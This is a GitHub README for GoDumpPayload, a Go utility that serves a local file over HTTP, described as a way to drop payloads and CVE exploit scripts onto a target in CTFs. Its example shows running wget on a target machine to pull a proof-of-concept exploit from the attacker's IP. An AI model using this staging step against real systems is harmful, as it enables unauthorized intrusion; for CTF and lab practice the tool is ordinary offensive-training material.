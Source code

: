 # GoDumpPayload
 
[![Issues][issues-shield]][https://github.com/ThrynSec/GoDumpPayload/issues]
[![MIT License][license-shield]][https://github.com/ThrynSec/GoDumpPayload/blob/main/LICENSE]
[![Twitter][twitter-shield]][https://twitter.com/ThrynSec]

GoDumpPayload is an executable that opens a HTTP GET endpoint linked to a file or folder on your machine, so you can just download the wanted file from another computer on your local network (or distant if the port is opened on the internet).

It's mainly used to dump payload and/or scripts using curl and wget, to use a CVE in a remote machine. 
Of course, it's intended to be used during CTFs and not on actual vulnerable devices.


## How to install it

You can either download the code in the /cmd/ folder of this repository and then build it using `go build ./cmd/main/main.go`.
If you're somewhat lazy you can also download the executable with `wget https://github.com/ThrynSec/GoDumpPayload/blob/main/executables/GoDumpPayload`


## How to use it

You have to call `/path/to/GoDumpPayload/ ` followed by the arguments `-file path/to/file-or-folder -name name_for_the_endpoint`

Example :
`/home/JeanJean/Downloads/GoDumpPayload -file /home/JeanJean/Downloads/poc.py -name cve.py` will create `<your_ip>/cve.py`, and `wget <your_ip>/cve.py` on the target machine will download /home/JeanJean/Downloads/poc.py on it, renamed as "cve.py"

Additionnal optional flags :
`-port <int>` will open the endpoint on the given name. By default, it uses the port 80.


## Todo
* Adding /package/GoDumpPayload.deb to easily install GoDumpPayload in Path
* Rearranging my folders because /cmd/internals is an abomination (sorry guys)
* Creating a nice logo :)